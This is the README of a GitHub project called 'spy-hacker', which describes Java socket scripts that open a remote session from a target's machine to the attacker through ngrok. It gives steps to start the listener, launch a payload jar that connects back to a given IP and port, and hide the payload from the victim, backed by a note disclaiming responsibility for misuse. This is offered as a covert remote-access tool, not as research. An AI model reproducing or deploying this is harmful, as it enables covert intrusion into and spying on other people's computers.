

# spy-hacker
simple scripts based on the socket to open a session between the target and the hacker over the internet using ngrok tools

- Note :i am not responsible for any bad use of these scripts
1) You need JRE(java runtime environment)
- to launch the scripts
1)  first runs java server script using this command : java SpyHacker
2)  type the local port and waiting the connection of the client
3)  to launch the payload you should pass the ip and number port as an input parameter
4)  type this command to lunch the payload : java -jar payload.jar 192.168.1.1 8080 (as an example for ip address and port number)
5) you can hide the payload (see the video below)
# screenshot

# explanation video 
- hiding the payload and full explanation : 

